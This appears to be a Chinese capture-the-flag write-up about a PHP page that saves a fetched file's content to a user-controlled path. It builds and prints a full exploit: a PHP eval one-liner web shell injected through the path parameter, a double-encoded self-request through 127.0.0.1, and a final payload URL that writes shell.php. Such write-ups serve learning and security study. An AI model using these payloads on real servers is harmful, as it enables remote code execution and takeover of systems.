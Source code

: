 页面功能就是将 file 指定的文件内容内容放到 path 路径下,需要 getshell

仔细分析后发现传参后的输出
`echo "console.log($path update successed!)";`  中的 path 被输出出来且可控，只需要将 path 构造成一句话木马并通过 file_put_contents 函数将该传参后的输出写入 shell 文件即可

一步一步来看，首先构造 path
`file=http://127.0.0.1/&path=%3C?php%20eval($_REQUEST[c]);?%3E.php`

成功构造出 `<?php eval($_REQUEST[c]);?>.php`

接着想办法把输出
`console.log(<?php eval($_REQUEST[c]);?>.php update successed!)` 写入另一文件

结合 file\_get\_contents，想到可以二次调用该文件，并将 payload 进行编码并当作二次执行的参数传入
`file=http://127.0.0.1/?file%3dhttp%3a%2f%2f127.0.0.1%2f%26path%3d%253C%3fphp%2520eval(%24_REQUEST%5bc%5d)%3b%3f%253E.php`

最终 Payload : 
`http://ip:8001/?file=http://127.0.0.1/?file%3dhttp%3a%2f%2f127.0.0.1%2f%26path%3d%253C%3fphp%2520eval(%24_REQUEST%5bc%5d)%3b%3f%253E.php&path=shell.php`
